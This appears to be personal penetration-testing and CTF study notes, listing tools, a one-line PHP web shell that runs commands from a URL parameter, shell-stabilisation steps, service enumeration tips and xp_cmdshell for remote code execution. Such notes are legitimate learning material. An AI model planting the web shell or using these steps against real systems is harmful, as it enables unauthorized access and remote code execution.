 # Cyber Security Notes

## Tools
- OpenVPN
- nmap
- smbclient
- Sublime Text
- redis-tools
- gobuster
- mysql
- wordlists from SecLists and naive hashcat
  - directory-list-2.3-medium.txt
  - rockyou.txt
- john the ripper
- responder
- evil-winrm

## Initial Access
### Simple PHP Payload
> Use + instead of spaces due to URL encoding when sending commands through URL
```php
<?php
  echo system($_GET['c']);
?>
```

## Post Exploitation
### Spawning a Stable Shell
First, run the following on the target machine
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

On our host machine, we will then run
```bash
stty raw -echo
```
The dash means "disable" a setting, so -echo disables echoing. The raw setting means that the input and output is not processed, just sent straight through. So with stty raw you can't hit Ctrl-C to end a process, for example. This helps to make the shell more stable.

Finally, on our target machine we will run
```bash
export TERM=xterm
```
This will set the terminal emulator to the Ubuntu (maybe linux?) default of xterm.
From here on out, we should have successfully spawned a stable shell.

## Brute Forcing
### Tools
#### Z3
- Z3 is a theorem prover from Microsoft Research that makes it very easy to brute force questions by specifing rules.
- Can be accessed through Python bindings.

## Vulnerability Scanning
### Port 21
#### FTP
- Use ftp (get to grab files)
- FTP code 230 will be returned in nmap scan if anonymous login is allowed
#### Telnet
- Use telnet

### Ports 445 and 143
These ports are associated with file sharing (SMB) and SQL Server
- Sensitive info tend to be stored in these areas
- Use smbclient to show available shares with -L and access them
- WorkShares can occasionally be logged into without a password
- E.g. smbclient //127.0.0.1/SHARE$

### Port 6379
Usually associated with redis
- Accessed using redis-cli
- redis is an in-memory database
- Use info to list all databases, then use select `id` to select a database by its id
- Use keys * to get all keys, then get `keyname` to get the corresponding value

## Database
### Accessing Microsoft SQL Server
- pymssql can be used to connect to Microsoft SQL Servers.
- Goal is to use xp_cmdshell to gain RCE.

## Useful URLS
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://github.com/undergroundwires/CEH-in-bullet-points
- https://github.com/JohnHammond/ctf-katana
